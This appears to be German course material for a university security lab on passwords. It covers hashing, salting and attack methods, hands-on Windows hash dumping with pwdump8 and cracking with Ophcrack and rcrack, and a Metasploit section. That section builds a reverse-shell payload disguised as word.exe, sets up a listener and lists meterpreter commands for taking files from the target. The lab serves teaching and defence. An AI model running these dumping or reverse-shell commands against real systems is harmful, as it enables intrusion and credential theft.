








## Lernziele

In diesem Labor beschäftigen wir uns mit einem der grundlegendsten und gleichzeitig am häufigsten unterschätzten Themen der IT-Sicherheit: **Passwörter**. Konkret geht es darum:

- Was ein **sicheres Passwort** ausmacht – und warum die meisten Passwörter es nicht sind
- Wie Passwörter technisch **gespeichert** werden (Hash-Funktionen)
- Wie **Salting** die Sicherheit erhöht
- Welche **Angriffsmethoden** existieren und wie sie in der Praxis funktionieren
- Wie man Passwort-Hacking selbst durchführt, um die Risiken zu verstehen

---

## 1. Warum Passwörter so wichtig – und so gefährdet – sind

Passwörter sind der primäre Zugangsmechanismus zu digitalen Systemen. Das eigentliche Ziel von Passwort-Angreifern ist dabei oft **nicht** das direkte Einloggen bei einem Dienst (z. B. Instagram), sondern das **Erlangen des Klartextpassworts** selbst – denn Menschen verwenden Passwörter häufig für mehrere Konten wieder. Wer das Passwort eines Nutzers kennt, hat potenziell Zugang zu E-Mail, Firmennetzwerk, Bankdaten und mehr.

Professionelle Angreifer arbeiten deshalb mit gestohlenen **Passwortdateien** (von gehackten Servern) oder nutzen **Offline-Cracking-Software**, um Passwörter ohne Ratenlimitierung systematisch zu knacken.

---

## 2. Gute Passwörter – Eigenschaften und Regeln

Ein starkes Passwort erfüllt möglichst viele der folgenden Kriterien:

| Eigenschaft | Erklärung |
|---|---|
| **Länge ≥ 12 Zeichen** | Jedes zusätzliche Zeichen multipliziert die Anzahl möglicher Kombinationen exponentiell |
| **Vielfalt** | Gross-/Kleinbuchstaben, Ziffern, Sonderzeichen |
| **Zufällige Wörter / Phrasen** | z. B. „Mond Auto Strand Luft" – leicht merkbar, aber schwer zu knacken |
| **Keine persönlichen Infos** | Namen, Geburtstag, Adresse sind leicht zu erraten |
| **Keine echten Wörter** | Anfällig für Wörterbuchangriffe |
| **Keine Zahlen anhängen** | „Hausgarten14" ist genauso schwach wie „Hausgarten" |
| **Einzigartigkeit** | Jedes Konto braucht ein eigenes Passwort |
| **Passwort-Manager nutzen** | Ermöglicht komplexe, einzigartige Passwörter für alle Konten |
| **Regelmässige Änderung** | Erhöht Sicherheit bei unbekannten Datenlecks |
| **2FA / MFA ergänzen** | Zweiter Faktor (OTP, Fingerabdruck, USB-Key) schützt auch bei gestohlenen Passwörtern |

> **Merksatz: Kein Passwort ist unknackbar.** Die Frage ist nur, wie lange es dauert.

---

## 3. Hash-Funktionen: Wie Passwörter gespeichert werden

Passwörter werden **nie im Klartext** gespeichert (zumindest sollten sie es nicht). Stattdessen wird das Passwort durch eine **Hash-Funktion** in einen Hash-Wert umgewandelt, der dann gespeichert wird.

### Eigenschaften einer Hash-Funktion



1. **Einwegfunktion**: Aus dem Hash kann man das originale Passwort nicht ableiten
2. **Einzigartigkeit (Kollisionsresistenz)**: Verschiedene Eingaben erzeugen (idealerweise) verschiedene Hashes
3. **Feste Länge**: Unabhängig von der Länge des Passworts hat der Hash immer dieselbe Länge (z. B. SHA-256 → immer 256 Bit)
4. **Avalanche-Effekt**: Schon eine minimale Änderung der Eingabe führt zu einem komplett anderen Hash

### Beispiel (SHA-1)

```
PWD: Haus  →  SHA1: 22b78e2d5e887ec315104ccbe9430c30ceeb82a3
PWD: Maus  →  SHA1: a47deac51013521af07aa030cfa3e8e504192996
PWD: Laus  →  SHA1: 26aff90edc2ce45c123b7bf55d215f0bbf9e5971
```

Ein einzelnes geändertes Zeichen → komplett anderer Hash.

### Gängige Hash-Algorithmen

| Algorithmus | Sicherheit | Verwendung |
|---|---|---|
| **MD5** | ❌ Unsicher | Checksummen, Datenintegrität (nicht für Passwörter!) |
| **SHA-1** | ❌ Unsicher | Veraltet, wird noch in Altsystemen genutzt |
| **RIPEMD-160** | ⚠️ Besser als MD5/SHA-1 | Selten |
| **SHA-2** (SHA-256, SHA-512 etc.) | ✅ Sicher | Weit verbreitet in Sicherheitsprotokollen |
| **SHA-3** | ✅ Sicher | Nachfolger von SHA-2 |

### Login-Prozess mit Hashing



---

## 4. Salting: Hashing verbessern

Selbst wenn Passwörter gehasht gespeichert sind, gibt es Schwachstellen. Zwei Nutzer mit demselben Passwort haben denselben Hash – das ermöglicht Angriffe mit **vorberechneten Tabellen (Rainbow Tables)**.

**Salting** löst dieses Problem: Vor dem Hashen wird dem Passwort ein zufälliger Wert (**Salt**) hinzugefügt.

### Ablauf des Saltings



### Warum Salting hilft

- **Schutz vor Wörterbuchangriffen**: Jedes Passwort hat nun eine einzigartige Kombination
- **Schutz vor Brute-Force**: Der Angreifer muss den Salt kennen und für jede Salt-Kombination separat rechnen
- **Rainbow Tables wertlos**: Vorberechnete Tabellen ohne Salt sind nutzlos, weil für jede mögliche Salt-Kombination eine eigene Tabelle nötig wäre

### Wichtig

> Der Salt **muss nicht geheim** sein – er kann zusammen mit dem Hash in der Datenbank gespeichert werden. Der Zweck ist Einzigartigkeit und Komplexitätssteigerung, nicht Geheimhaltung.

### Beispiel

| PWD | Salt | PWD+Salt | Hash inkl. Salt |
|---|---|---|---|
| Haus | we45 | Hauswe45 | 72171952 |
| Maus | 56sd | Maus56sd | 77175315 |
| Raus | 45t3 | Raus45t3 | 82175216 |

Selbst wenn zwei Nutzer „Haus" als Passwort haben: Durch unterschiedliche Salts entstehen unterschiedliche Hashes → Angreifer kann nicht auf einen Blick erkennen, wer dasselbe Passwort verwendet.

---

## 5. Angriffsmethoden im Überblick



### 5.1 Shoulder Surfing

Beobachten von Opfern bei der Passworteingabe (Geldautomat, Laptop im Zug). Einfach, aber effektiv in öffentlichen Räumen.

### 5.2 Social Engineering

Erschleichen des Passworts durch Täuschung – z. B. gefälschte E-Mails (Phishing), manipulierte Links oder Anhänge mit Schadsoftware.

### 5.3 Mitlesen / Keylogger

Ein Keylogger zeichnet alle Tastatureingaben auf und sendet sie an den Angreifer. Kann als Schadsoftware oder physisches Gerät installiert werden.

### 5.4 Standardpasswörter

Netzwerkgeräte (Router, IP-Kameras) werden mit bekannten Standardpasswörtern geliefert. Angreifer probieren diese Standardpasswörter zuerst.

### 5.5 Wörterbuchangriff (Dictionary Attack)

Der Angreifer testet systematisch Wörter aus einer **Wortliste** (Dictionary/Wordlist). Besonders effektiv gegen echte Wörter, Namen oder einfache Phrasen.

**Warum effektiv**: Viele Nutzer verwenden echte Wörter → kleine Suchraum. Im Gegensatz zu Brute Force werden nicht alle Kombinationen, sondern nur wahrscheinliche Passwörter getestet.

Beispiel: `Haus`, `Maus`, `Raus`, `Laus` → alle echten deutschen Wörter → sofort in Wörterliste enthalten.

### 5.6 Rainbow Tables

Riesige **vorberechnete Tabellen** aus Hash-Werten und den zugehörigen Klartextpasswörtern. Anstatt Hashes live zu berechnen, schlägt der Angreifer den gestohlenen Hash in der Tabelle nach.



**Grenzen von Rainbow Tables:**
- Sehr grosser Speicherbedarf (Hunderte GB bis TB)
- Gegen **gesaltete** Passwörter wirkungslos (jede Salt-Kombination bräuchte eigene Tabelle)
- Können nicht jedes Passwort enthalten – sehr lange oder komplexe Passwörter fehlen

### 5.7 Brute Force

Systematisches Durchprobieren **aller möglichen Zeichenkombinationen**. Langsam, aber garantiert erfolgreich – Frage ist nur die Zeit.

Moderne GPUs können **Milliarden Hashes pro Sekunde** berechnen. Ein 6-stelliges Passwort aus Kleinbuchstaben hat nur 26⁶ ≈ 309 Millionen Kombinationen – in Sekunden geknackt.

### 5.8 Maskenangriff (Rule-based / Heuristic Attack)

Optimierter Brute-Force-Angriff, bei dem bereits bekannte Eigenschaften des Passworts genutzt werden:
- „Passwort beginnt mit Grossbuchstaben, gefolgt von 5 Kleinbuchstaben und endet auf 2 Ziffern"
- Reduziert den Suchraum drastisch

### 5.9 Offline Cracking

Angreifer erhält Hash-Datei (z. B. von kompromittiertem Server) und knackt die Hashes lokal, ohne dass das Zielsystem etwas merkt. Kein Ratenlimit, keine Sperrung – unlimitierte Versuche.

### 5.10 Collection #1 und andere Datenlecks

Im Januar 2019 tauchte im Darknet eine Sammlung mit über **773 Millionen E-Mail-Adressen** und 21 Millionen Passwörtern auf (Collection #1). Diese enthält Daten aus über 2000 früheren Datenpannen. Solche Listen werden für Wörterbuch- und Credential-Stuffing-Angriffe verwendet.

---

## 6. Praktisches Hacking: Windows-Passwörter knacken

### 6.1 Passwort-Hashes auslesen (PWDUMP)

Windows speichert Passwort-Hashes in der SAM-Datenbank (Security Account Manager). Mit dem Tool **pwdump8** können diese Hashes ausgelesen werden:

```
pwdump8.exe > hashes.txt
```

Das Ergebnis hat das Format:
```
Benutzername:SID:LM-Hash:NTLM-Hash:::
```

Beispiel:
```
labstudent:1000:AAD3B435B51404EE...:6A83812D1B40D8EEFFAD65E787739CF7:::
```

### 6.2 Rainbow Tables nutzen: Ophcrack

**Ophcrack** ist ein Open-Source-Passwort-Cracker, der Rainbow Tables verwendet. Es gibt kostenlose Tabellen für gängige Windows-Passwörter:

- **Vista Free**: Gängige Passwörter
- **Vista Probabilistic Free**: Gängige Passwörter mit Zahlen und Erweiterungen



**Ergebnis im Labor:**
- Administrator: `Hslu123`
- labstudent: `Hslu123`
- student1: `testtest`
- student2: `passw`
- WDAGUtilityAccount: nicht gefunden (zu komplex für die vorhandenen Tabellen)

### 6.3 Eigene Rainbow Tables erstellen: WinRTGen

Mit **WinRTGen** können massgeschneiderte Rainbow Tables erstellt werden – z. B. für Passwörter aus bestimmten Zeichensätzen und Längen:

Konfigurationsparameter:
- **Hash**: Algorithmus (z. B. NTLM)
- **Min/Max Len**: Minimale und maximale Passwortlänge
- **Chain Count**: Anzahl der Ketten (mehr = grösser und effektiver)
- **Charset**: Zeichensatz (z. B. `loweralpha` für a–z)

Eine selbst generierte Tabelle (Länge 4–6, loweralpha, 4 Mio. Ketten) hat eine Grösse von ca. **64 MB** und knackt einfache Passwörter wie `passw` in etwa **1,5 Sekunden**.

> Zum Vergleich: Ein vollständiger NTLM-Rainbow-Table für 8-stellige Passwörter umfasst **486 GB**. Für 9 Zeichen bereits **6,7 TB**.

### 6.4 Rainbow Crack

**Rainbow Crack** (rcrack) lädt NTLM-Hashes und sucht sie gegen selbst erstellte oder heruntergeladene Tabellen:

```
File → Load NTLM Hashes from PWDUMP File
Rainbow Table → Search Rainbow Tables → [Tabelle auswählen]
```

**Limitation**: Tabellen, die nur 4–6 stellige Passwörter abdecken, können `Hslu123` (7 Zeichen) oder `testtest` (8 Zeichen) nicht knacken.

---

## 7. Hashcat: Modernes Passwort-Cracking

**Hashcat** ist das mächtigste verfügbare Passwort-Cracking-Tool:

- Nutzt **GPU-Beschleunigung** (Grafikkarten) → viele Milliarden Hashes/Sekunde
- Unterstützt alle gängigen Hash-Algorithmen (MD5, SHA-1, NTLM, bcrypt, etc.)
- Verschiedene Angriffsmodi:
  - Wörterbuchangriff
  - Brute Force
  - Kombinationsangriff
  - Maskenangriff (Rule-based)

Grundprinzip: Rät ein Passwort → berechnet den Hash → vergleicht mit dem Ziel-Hash → wiederholt bis Übereinstimmung.

---

## 8. Reverse Shell mit Metasploit (msfvenom)

Im zweiten Teil des Labors wird gezeigt, wie ein Angreifer nach dem Passwort-Cracking **Remote-Zugriff** auf ein System erlangt.

### 8.1 Ablauf einer Reverse-Shell-Attacke



### 8.2 Erstellen des Payloads

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  --platform windows -a x86 -f exe \
  LHOST=<IP der Kali-VM> LPORT=444 \
  -o /root/word.exe
```

### 8.3 Listener einrichten (Metasploit)

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP der Kali-VM>
set LPORT 444
run
```

### 8.4 Nach erfolgreicher Verbindung: Meterpreter-Befehle

| Befehl | Funktion |
|---|---|
| `sysinfo` | Systeminformationen anzeigen |
| `cat <Datei>` | Dateiinhalt anzeigen |
| `download <Datei>` | Datei vom Zielrechner herunterladen |
| `edit <Datei>` | Datei auf dem Zielrechner bearbeiten (vim) |
| `ipconfig` | Netzwerkkonfiguration des Zielrechners |
| `run vnc` | TightVNC öffnen → grafischer Desktop-Zugriff |

---

## 9. Zusammenfassung und Lessons Learned



### Kernerkenntnisse

1. **Passwörter sind häufig zu schwach** und lassen sich mit einfachen, frei verfügbaren Tools in Sekunden bis Minuten knacken.

2. **Passwortwiederverwendung** ist das eigentliche Risiko: Ein geknacktes Passwort öffnet oft mehrere Systeme.

3. **Windows-Login ist unsicher**: Die NTLM-Hashes können mit Administrator-Rechten ausgelesen und offline geknackt werden.

4. **Salting schützt nicht vor allem**: Salting schützt vor Rainbow Tables und parallelen Angriffen, aber ein schwaches Passwort bleibt schwach – Brute Force und Wörterbuchangriffe sind immer noch möglich.

5. **Längere Passwörter sind exponentiell sicherer**: Jedes zusätzliche Zeichen multipliziert die Anzahl möglicher Kombinationen.

6. **Physischer Zugriff = Game Over**: Wer physischen Zugriff auf ein System hat (oder jemanden dazu bringt, eine Datei auszuführen), kann tiefgreifenden Schaden anrichten.

### Schutzmassnahmen

- Passwort-Manager verwenden
- Einzigartige, lange Passwörter für jeden Dienst
- Wo immer möglich: **Multi-Faktor-Authentifizierung (MFA)**
- Keine ausführbaren Dateien aus unbekannten Quellen starten
- Systemupdates einspielen (schliessen Sicherheitslücken)
- Unternehmensweite Passwortrichtlinien durchsetzen

---

*Kursunterlagen: INTROL – Einführendes Labor Sicherheit, FS26, Hochschule Luzern*  
*Florian Wamser & Lothar Gramelspacher*
